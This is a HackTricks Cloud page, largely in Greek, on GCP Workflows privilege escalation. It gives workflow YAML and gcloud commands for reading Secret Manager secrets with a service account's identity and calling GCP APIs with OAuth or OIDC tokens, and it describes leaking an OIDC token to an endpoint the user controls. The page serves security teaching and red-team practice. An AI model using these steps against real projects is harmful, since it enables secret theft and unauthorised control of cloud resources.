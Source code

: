 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basic Information:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Όπως γνωρίζω, δεν είναι δυνατόν να αποκτήσετε ένα shell με πρόσβαση στο endpoint μεταδεδομένων που περιέχει τα διαπιστευτήρια SA του SA που επιτίθεται σε ένα Workflow. Ωστόσο, είναι δυνατόν να καταχραστείτε τις άδειες του SA προσθέτοντας τις ενέργειες που πρέπει να εκτελούνται μέσα στο Workflow.

Είναι δυνατόν να βρείτε την τεκμηρίωση των συνδετήρων. Για παράδειγμα, αυτή είναι η [**σελίδα του συνδετήρα Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Στη γραμμή πλοήγησης είναι δυνατόν να βρείτε αρκετούς άλλους συνδετήρες.

Και εδώ μπορείτε να βρείτε ένα παράδειγμα ενός συνδετήρα που εκτυπώνει ένα μυστικό:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Ενημέρωση από το CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Αν λάβετε ένα σφάλμα όπως `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, απλά **περιμένετε ένα λεπτό και δοκιμάστε ξανά**.

Αν δεν έχετε πρόσβαση στο διαδίκτυο, είναι δυνατόν να ενεργοποιήσετε και να δείτε την εκτέλεση ενός Workflow με:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Μπορείτε επίσης να ελέγξετε την έξοδο προηγούμενων εκτελέσεων για να αναζητήσετε ευαίσθητες πληροφορίες
{% endhint %}

Σημειώστε ότι ακόμη και αν λάβετε ένα σφάλμα όπως `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` επειδή δεν έχετε αυτή την άδεια, η ροή εργασίας έχει δημιουργηθεί.

### Διαρροή OIDC token (και OAuth?)

Σύμφωνα [**με τα έγγραφα**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), είναι δυνατόν να χρησιμοποιήσετε βήματα ροής εργασίας που θα στείλουν ένα HTTP αίτημα με το OAuth ή OIDC token. Ωστόσο, όπως και στην περίπτωση του [Cloud Scheduler](gcp-cloudscheduler-privesc.md), το HTTP αίτημα με το Oauth token πρέπει να είναι προς τον κεντρικό υπολογιστή `.googleapis.com`.

{% hint style="danger" %}
Επομένως, είναι **δυνατόν να διαρρεύσει το OIDC token υποδεικνύοντας ένα HTTP endpoint** που ελέγχεται από τον χρήστη, αλλά για να διαρρεύσει το **OAuth** token θα χρειαστείτε **μια παράκαμψη** για αυτή την προστασία. Ωστόσο, μπορείτε ακόμα να **επικοινωνήσετε με οποιοδήποτε GCP api για να εκτελέσετε ενέργειες εκ μέρους του SA** χρησιμοποιώντας είτε συνδέσμους είτε HTTP αιτήματα με το OAuth token.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Με αυτή την άδεια αντί για `workflows.workflows.create` είναι δυνατή η ενημέρωση ενός ήδη υπάρχοντος workflow και η εκτέλεση των ίδιων επιθέσεων.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

